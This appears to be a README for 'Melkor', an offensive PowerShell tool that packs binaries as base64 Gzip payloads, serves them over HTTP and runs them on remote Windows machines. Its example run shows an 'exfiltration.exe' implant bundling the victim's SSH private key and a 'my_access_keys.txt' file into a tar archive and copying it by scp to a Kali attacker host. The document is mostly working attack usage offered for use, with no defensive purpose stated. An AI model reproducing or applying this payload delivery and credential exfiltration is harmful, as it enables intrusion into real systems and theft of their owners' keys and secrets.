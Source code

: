# Melkor

Melkor employs a PowerShell execution technique that can deploy base64 encoded, Gzip compressed binaries and execute them. 

## Usage

### Generate payloads

First generate the required payloads in base64 with Gzip compression. For example, to convert binary named `exfiltration.exe` : 
```PowerShell
PS > .\generate_payload.ps1 D:\implant\balrog\x64\Release\exfiltration.exe
{
  "payloadContent": "H4sIAAAAAAAACu19C3gURbZ/z2QmDCFhJpjBRFkY........",
  "payloadSize": 33280
}
```
This can be saved as a JSON and exposed via an HTTP server to be fetched by `deploy_payload.ps1`

### Deploy payloads

Edit `deploy_payload.ps1` with remote Windows machine IP address and path to HTTP server containing the payloads in JSON

Provide a list of payloads to fetch in `$payloads`

```PowerShell
PS > .\deploy_payload.ps1
rajeev@192.168.1.216's password:
INFO: Could not find files for the given pattern(s).
C:\Users\rajeev\.ssh
C:\Users\rajeev\Desktop
tar.exe
Command is tar -cvzf C:\Users\rajeev\AppData\Local\Temp\rk3824.tar C:\Users\rajeev\.ssh C:\Users\rajeev\Desktop
tar: Removing leading drive letter from member names
a Users/rajeev/.ssh
a Users/rajeev/.ssh/id_rsa
a Users/rajeev/.ssh/id_rsa.pub
a Users/rajeev/.ssh/known_hosts
a Users/rajeev/Desktop
a Users/rajeev/Desktop/desktop.ini
a Users/rajeev/Desktop/my_access_keys.txt
Command is scp C:\Users\rajeev\AppData\Local\Temp\rk3824.tar kali@192.168.1.205:landing/rk3824.tar
```
